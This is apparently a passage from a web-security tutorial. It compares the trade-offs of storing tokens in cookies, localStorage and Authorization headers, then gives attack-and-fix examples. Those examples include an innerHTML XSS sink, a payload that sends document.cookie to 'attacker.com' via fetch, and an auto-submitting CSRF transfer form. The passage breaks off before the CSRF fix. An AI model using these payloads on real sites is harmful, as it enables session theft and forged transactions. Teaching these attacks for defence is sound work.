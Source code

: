 
---

# 5) Design trade-offs: cookie vs localStorage vs Authorization header

* **Cookies**

  * Pros: automatic sending with requests; works with browser form submits; can set HttpOnly/Secure/SameSite.
  * Cons: vulnerable to CSRF if not protected; require careful attribute config.
* **localStorage**

  * Pros: easy JS access, large capacity.
  * Cons: accessible to JS (XSS risk) — not suitable for sensitive tokens unless additional protections are present.
* **Authorization header with Bearer token**

  * Pros: immune to CSRF if token is not automatically attached; better for APIs when client explicitly sets header.
  * Cons: token must be stored somewhere — often in memory or localStorage; still vulnerable to XSS if stored in JS-accessible storage.

Common pattern for SPAs:

* Store session token in **HttpOnly cookie**, use CSRF tokens/SameSite for site forms; or store short-lived access token in memory and refresh via secure cookie refresh token.

---

# 6) Concrete examples (attack & fix)

### XSS cookie theft (bad):

```html
<!-- vulnerable page that echoes user input unsafely -->
<div id="comment"></div>
<script>
  document.getElementById('comment').innerHTML = location.search.slice(1);
</script>
```

Attacker: `https://site.com/?<script>fetch('https://attacker.com/?c='+document.cookie)</script>`

**Fix**: escape user content; set cookies `HttpOnly`; enable CSP.

### CSRF (bad):

Attacker page:

```html
<form action="https://bank.com/transfer" method="POST">
  <input name="amount" value="10000"/>
</form>
<script>document.forms[0].submit()</script>
```
